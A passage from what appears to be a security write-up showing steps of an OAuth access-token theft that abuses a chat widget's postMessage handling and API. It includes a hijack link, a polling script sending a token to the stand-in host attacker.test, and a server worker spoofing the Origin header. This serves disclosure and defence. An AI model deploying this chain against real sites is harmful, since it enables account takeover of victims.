     ```
    <a href="#" onclick="b=window.open('https://accounts.google.com/o/oauth2/auth/oauthchooseaccount?...');">Click here to hijack token</a>
    ```
3.  The `launchChatWindowByPostMessage()`-function will continuously send a postMessage to the main window, if opened, to launch the chat-widget:

    ```
    function launchChatWindowByPostMessage() {
      var launch = setInterval(function() {
        if(b) { b.postMessage({type: 'launch-chat'}, '*'); }
      }, 500);
    }
    ```
4.  When the victim clicked the link and ended up on the error page, the chat would launch and a chat-api-token would be created. My reload of the chat-widget iframe on the malicious page would get the `api-token` through postMessage and I could then start to look in the API for the current url of the victim:

    ```
    function lookInApi(token) {
      var look = setInterval(function() {
        fetch('https://fetch-server-side.attacker.test/?token=' + token).then(e => e.json()).then(e => {
          if (e &&
            e.api_data &&
            e.api_data.current_url &&
            e.api_data.current_url.indexOf('access_token') !== -1) {
              var payload = e.api_data.current_url
              document.getElementById('leak').innerHTML = 'Attacker now has the token: ' + payload;
              clearInterval(look);
          }
        });
      }, 2000);
    }
    ```
5.  The server-side page at `https://fetch-server-side.attacker.test/?token=xxx` would make the API-call with the added Origin-header to make the Chat-API think I was using it as a legit origin:

    ```
    addEventListener('fetch', event => {
      event.respondWith(handleRequest(event.request))
    })
    async function getDataFromChatApi(token) {
      return await fetch('https://chat-widget.example.com/api', {headers:{Origin: 'https://example.com', 'Chat-Api-Token': token}});
    }
    function handleRequest(request) {
      const token = request.url.match('token=([^&#]+)')[1] || null;
      return token ? getDataFromChatApi(token) : null;
    }
    ```
6. When the victim clicked the link and went through the OAuth-dance and landed on the error page with the token added, the chat-widget would suddenly popup, register the current URL and the attacker would have the access token from the victim.
